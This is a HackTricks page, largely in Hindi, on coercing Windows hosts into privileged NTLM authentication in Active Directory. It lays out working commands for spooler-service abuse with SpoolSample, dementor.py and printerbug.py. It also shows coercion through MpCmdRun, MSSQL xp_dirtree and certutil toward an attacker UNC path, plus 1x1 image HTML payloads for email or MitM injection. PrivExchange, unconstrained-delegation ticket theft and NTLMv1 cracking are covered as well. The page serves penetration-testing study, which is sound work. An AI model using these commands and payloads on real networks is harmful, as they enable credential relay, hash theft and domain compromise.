 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) एक **संग्रह** है **दूरस्थ प्रमाणीकरण ट्रिगर्स** का जो C# में MIDL कंपाइलर का उपयोग करके कोडित किया गया है ताकि 3rd पार्टी निर्भरताओं से बचा जा सके।

## Spooler Service Abuse

यदि _**Print Spooler**_ सेवा **सक्रिय** है, तो आप कुछ पहले से ज्ञात AD क्रेडेंशियल्स का उपयोग करके डोमेन कंट्रोलर के प्रिंट सर्वर से नए प्रिंट जॉब्स पर एक **अपडेट** **अनुरोध** कर सकते हैं और बस इसे **किसी सिस्टम को सूचना भेजने** के लिए कह सकते हैं।\
ध्यान दें कि जब प्रिंटर किसी मनमाने सिस्टम को सूचना भेजता है, तो इसे उस **सिस्टम** के खिलाफ **प्रमाणित** होना आवश्यक है। इसलिए, एक हमलावर _**Print Spooler**_ सेवा को किसी मनमाने सिस्टम के खिलाफ प्रमाणित करवा सकता है, और सेवा इस प्रमाणीकरण में **कंप्यूटर खाता** का **उपयोग** करेगी।

### Finding Windows Servers on the domain

PowerShell का उपयोग करके, Windows बॉक्स की एक सूची प्राप्त करें। सर्वर आमतौर पर प्राथमिकता होते हैं, इसलिए आइए वहीं ध्यान केंद्रित करें:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Finding Spooler services listening

थोड़े संशोधित @mysmartlogin के (विन्सेंट ले टॉक्स के) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) का उपयोग करके देखें कि क्या Spooler Service सुन रही है:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
आप Linux पर rpcdump.py का उपयोग कर सकते हैं और MS-RPRN प्रोटोकॉल की तलाश कर सकते हैं।
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### किसी मनमाने होस्ट के खिलाफ सेवा से प्रमाणीकरण करने के लिए कहें

आप [**SpoolSample को यहाँ से संकलित कर सकते हैं**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
या [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) या [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) का उपयोग करें यदि आप Linux पर हैं
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegation के साथ संयोजन

यदि एक हमलावर पहले से ही [Unconstrained Delegation](unconstrained-delegation.md) के साथ एक कंप्यूटर को समझौता कर चुका है, तो हमलावर **प्रिंटर को इस कंप्यूटर के खिलाफ प्रमाणित करने** के लिए मजबूर कर सकता है। अनियंत्रित प्रतिनिधित्व के कारण, **प्रिंटर के कंप्यूटर खाते का TGT** **अनियंत्रित प्रतिनिधित्व वाले कंप्यूटर की** **मेमोरी** में **सहेजा जाएगा**। चूंकि हमलावर पहले से ही इस होस्ट को समझौता कर चुका है, वह **इस टिकट को पुनः प्राप्त** करने और इसका दुरुपयोग करने में सक्षम होगा ([Pass the Ticket](pass-the-ticket.md))।

## RCP बल प्रमाणीकरण

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` हमला **Exchange Server `PushSubscription` फीचर** में पाए गए दोष का परिणाम है। यह फीचर किसी भी डोमेन उपयोगकर्ता को जो एक मेलबॉक्स रखता है, को किसी भी क्लाइंट-प्रदानित होस्ट पर HTTP के माध्यम से प्रमाणित करने के लिए Exchange सर्वर को मजबूर करने की अनुमति देता है।

डिफ़ॉल्ट रूप से, **Exchange सेवा SYSTEM के रूप में चलती है** और इसे अत्यधिक विशेषाधिकार दिए जाते हैं (विशेष रूप से, इसके पास **डोमेन प्री-2019 संचयी अपडेट पर WriteDacl विशेषाधिकार** हैं)। इस दोष का उपयोग **LDAP पर जानकारी के पुनः प्रेषण को सक्षम करने और इसके बाद डोमेन NTDS डेटाबेस को निकालने** के लिए किया जा सकता है। उन मामलों में जहां LDAP पर पुनः प्रेषण संभव नहीं है, इस दोष का उपयोग डोमेन के भीतर अन्य होस्टों पर पुनः प्रेषण और प्रमाणित करने के लिए किया जा सकता है। इस हमले का सफलतापूर्वक शोषण करने से किसी भी प्रमाणित डोमेन उपयोगकर्ता खाते के साथ डोमेन व्यवस्थापक तक तात्कालिक पहुंच मिलती है।

## Windows के अंदर

यदि आप पहले से ही Windows मशीन के अंदर हैं, तो आप विशेषाधिकार प्राप्त खातों का उपयोग करके Windows को एक सर्वर से कनेक्ट करने के लिए मजबूर कर सकते हैं:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
या इस अन्य तकनीक का उपयोग करें: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

NTLM प्रमाणीकरण को मजबूर करने के लिए certutil.exe lolbin (Microsoft-हस्ताक्षरित बाइनरी) का उपयोग करना संभव है:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

यदि आप उस उपयोगकर्ता का **ईमेल पता** जानते हैं जो उस मशीन में लॉग इन करता है जिसे आप समझौता करना चाहते हैं, तो आप बस उसे एक **1x1 छवि** के साथ **ईमेल** भेज सकते हैं जैसे
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
और जब वह इसे खोलेगा, तो वह प्रमाणीकरण करने की कोशिश करेगा।

### MitM

यदि आप किसी कंप्यूटर पर MitM हमला कर सकते हैं और एक पृष्ठ में HTML इंजेक्ट कर सकते हैं जिसे वह देखेगा, तो आप पृष्ठ में निम्नलिखित की तरह एक छवि इंजेक्ट करने की कोशिश कर सकते हैं:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 को क्रैक करना

यदि आप [NTLMv1 चुनौतियों को कैप्चर कर सकते हैं, तो यहां पढ़ें कि उन्हें कैसे क्रैक करें](../ntlm/#ntlmv1-attack)।\
_याद रखें कि NTLMv1 को क्रैक करने के लिए आपको Responder चुनौती को "1122334455667788" पर सेट करना होगा_

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें, PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}
